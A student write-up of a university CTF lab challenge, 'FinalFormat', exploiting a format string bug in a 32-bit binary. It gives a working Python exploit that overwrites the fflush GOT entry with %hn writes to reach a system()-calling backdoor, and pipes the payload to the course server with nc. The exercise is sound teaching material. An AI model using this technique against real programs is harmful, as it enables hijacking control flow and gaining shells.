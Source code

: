 # Format String Attack Lab

## Extra CTF - FinalFormat

From the name of the challenge we already suspect we are facing a format string
vulnerability. But first let's check the security of the binary we are given to
get an ideia of how we might exploit it.

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can see the the stack is not executable and also there is a canary, so
a typical stack based buffer overflow like we did in previous labs is a lot
harder to pull off. But on the other hand, there is no address randomization and
also RELRO is only partial. Now, let's check if the program really is
vulnerable to a format string vulnerability as we suspect.

```sh
$ ./program
There is nothing to see here...%s
Segmentation fault
```

When we pass a "%s" to the program, we get a segmentation fault. This is
because on a format string, "%s" tries to read from the address on the top of
the stack until a null byte is found, but since this address is probably not
valid, this read fails. So, our suspicion is confirmed: we have a format string
vulnerability, now let's exploit it! Let's start by disassembling main in gdb.

```sh
$ gdb program
gdb-peda$ disass main
Dump of assembler code for function main:
    0x0804926d <+0>: endbr32 
    0x08049271 <+4>: push   ebp
    0x08049272 <+5>: mov    ebp,esp
    0x08049274 <+7>: push   ebx
    0x08049275 <+8>: sub    esp,0x40
    0x08049278 <+11>: call   0x8049170 <__x86.get_pc_thunk.bx>
    0x0804927d <+16>: add    ebx,0x2d83
    0x08049283 <+22>: mov    eax,gs:0x14
    0x08049289 <+28>: mov    DWORD PTR [ebp-0x8],eax
    0x0804928c <+31>: xor    eax,eax
    0x0804928e <+33>: lea    eax,[ebx-0x1fd8]
    0x08049294 <+39>: push   eax
    0x08049295 <+40>: call   0x80490b0 <printf@plt>
    0x0804929a <+45>: add    esp,0x4
    0x0804929d <+48>: mov    eax,DWORD PTR [ebx-0x4]
    0x080492a3 <+54>: mov    eax,DWORD PTR [eax]
    0x080492a5 <+56>: push   eax
    0x080492a6 <+57>: call   0x80490c0 <fflush@plt>
    0x080492ab <+62>: add    esp,0x4
    0x080492ae <+65>: lea    eax,[ebp-0x44]
    0x080492b1 <+68>: push   eax
    0x080492b2 <+69>: lea    eax,[ebx-0x1fb8]
    0x080492b8 <+75>: push   eax
    0x080492b9 <+76>: call   0x8049110 <__isoc99_scanf@plt>
    0x080492be <+81>: add    esp,0x8
    0x080492c1 <+84>: lea    eax,[ebx-0x1fb3]
    0x080492c7 <+90>: push   eax
    0x080492c8 <+91>: call   0x80490b0 <printf@plt>
    0x080492cd <+96>: add    esp,0x4
    0x080492d0 <+99>: lea    eax,[ebp-0x44]
    0x080492d3 <+102>: push   eax
    0x080492d4 <+103>: call   0x80490b0 <printf@plt>
    0x080492d9 <+108>: add    esp,0x4
    0x080492dc <+111>: mov    eax,DWORD PTR [ebx-0x4]
    0x080492e2 <+117>: mov    eax,DWORD PTR [eax]
    0x080492e4 <+119>: push   eax
    0x080492e5 <+120>: call   0x80490c0 <fflush@plt>
    0x080492ea <+125>: add    esp,0x4
    0x080492ed <+128>: mov    eax,0x0
    0x080492f2 <+133>: mov    edx,DWORD PTR [ebp-0x8]
    0x080492f5 <+136>: xor    edx,DWORD PTR gs:0x14
    0x080492fc <+143>: je     0x8049303 <main+150>
    0x080492fe <+145>: call   0x8049390 <__stack_chk_fail_local>
    0x08049303 <+150>: mov    ebx,DWORD PTR [ebp-0x4]
    0x08049306 <+153>: leave  
    0x08049307 <+154>: ret    
End of assembler dump.
```

So, after analizing the disassemble and the normal flow of execution, we
conclude that the program is very simple: it prints the string "There is
nothing to see here...", then calls scanf and gets up to 60 characters from
stdin, after that prints the string "You gave me this:" followed by another
printf that probably looks like this printf(buffer), where buffer is user
controlled input. So, besides this format string vulnerability, there doesn't
seem to be anything wrong with this program. We will now use objdump to try to
find any hidden variables or functions.

```sh
$ objdump -t program
(...)
08049236 g     F .text  00000037              old_backdoor
(...)
```

And sure enough, we find this wierd old_backdoor function (we know it is
a function since it is in the .text section). Let's see what is does.

```sh
$ objdump -D program
(...)
08049236 <old_backdoor>:
8049236: f3 0f 1e fb           endbr32 
804923a: 55                    push   %ebp
804923b: 89 e5                 mov    %esp,%ebp
804923d: 53                    push   %ebx
804923e: e8 2d ff ff ff        call   8049170 <__x86.get_pc_thunk.bx>
8049243: 81 c3 bd 2d 00 00     add    $0x2dbd,%ebx
8049249: 8d 83 08 e0 ff ff     lea    -0x1ff8(%ebx),%eax
804924f: 50                    push   %eax
8049250: e8 8b fe ff ff        call   80490e0 <puts@plt>
8049255: 83 c4 04              add    $0x4,%esp
8049258: 8d 83 1b e0 ff ff     lea    -0x1fe5(%ebx),%eax
804925e: 50                    push   %eax
804925f: e8 8c fe ff ff        call   80490f0 <system@plt>
8049264: 83 c4 04              add    $0x4,%esp
8049267: 90                    nop
8049268: 8b 5d fc              mov    -0x4(%ebp),%ebx
804926b: c9                    leave  
804926c: c3                    ret
(...)
```

This functions makes a call to system(), and judging by its name, we're
guessing it will probably spawns a shell. There are two steps to exploiting
a program with a format string vulnerability: find what to write and where to
write it. It's looks like we already found our what, let's note in down.

```python
$ cat exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
```

This is how our exploit script is looking so far. Now for what to write: we see
that after the vulnerable printf call in main, there is a call to fflush. Since
this is a library call, the code will lookup a table where it can get the
address where it's code is. Since RELRO is only partial, this table is
overwritable. If we replace the address for the real fflush with the address
for old_backdoor, we control the flow of the program! Now lets find the fflush
address.

```sh
$ objdump -R program | grep fflush
0804c010 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

Now we know what to write and where to write, so we're ready to start building
our payload! But first let's try to get the printf stack pointer to point to
our input.

```sh
$ ./program 
There is nothing to see here...AAAA%x
You gave me this:AAAA41414141
```

We see that, after just one %x, we are already getting our output printed back
to us, now if we replace %x with %n, and supply a valid address, we can write
to it.

```python
$ cat exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
fflush_addr = 0x0804c010
content[0:4] = (fflush_addr).to_bytes(4,byteorder='little')

s = "%x"
fmt = (s).encode('latin1')
content[4:4+len(fmt)] = fmt

with open('payload', 'wb') as f:
  f.write(content)
```

```sh
$ ./exploit.py && cat payload | ./program 
There is nothing to see here...You gave me this:804c010
```

As we can see, we manage to print back to us with "%x" the address with want to
write to. Now, for writing, we will perform 2 short writes: in the first we
write the less significant half of old_backdoor, and then the other half.

```python
$ cat ./exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
fflush_addr = 0x0804c010
content[0:4] = "JUNK".encode('latin-1')
content[4:8] = (fflush_addr).to_bytes(4,byteorder='little')
content[8:12] = "JUNK".encode('latin-1')
content[12:16] = (fflush_addr + 2).to_bytes(4,byteorder='little')

first_write = 0x9236 - 16
second_write = 0x10804 - 0x9236
s = "%" + str(first_write) + "u%hn%" + str(second_write) + "u%hn"
fmt = (s).encode('latin1')
content[16:16+len(fmt)] = fmt

with open('payload', 'wb') as f:
  f.write(content)
```

There are just a few things that need further explaining: first, we are padding
our flush address with "JUNK", this is because the "%u"s we use "steal" the
element on the top of the stack, so we add this so that it does not steal our
address, since we want it to be used by "%hn". Also, you may notice that we
used 0x10804 as the second half of the old_backdoor address. This is a trick we
use since 0x804 is less than 0x9236, so it would have given a negative value,
which we don't want. Now let's run it!

```sh
$ ./exploit.py && cat payload | ./program
(...)
Backdoor activated
```

And we get the "Backdoor activated" message, we have successfully taken control!
Just need one last trick: although we called the old_backdoor function, we
didn't get a shell. To fix this, just need to pipe another cat:

```sh
$ ./exploit.py && (cat payload;cat) | ./program
(...)
Backdoor activated
whoami
seed
```

Success! Now just pipe it to the server instead of our local program and we get
the flag.

```sh
$ ./exploit.py && (cat payload;cat) | nc ctf-fsi.fe.up.pt 4007
(...)
cat flag.txt
flag{ **REDACTED** }
```
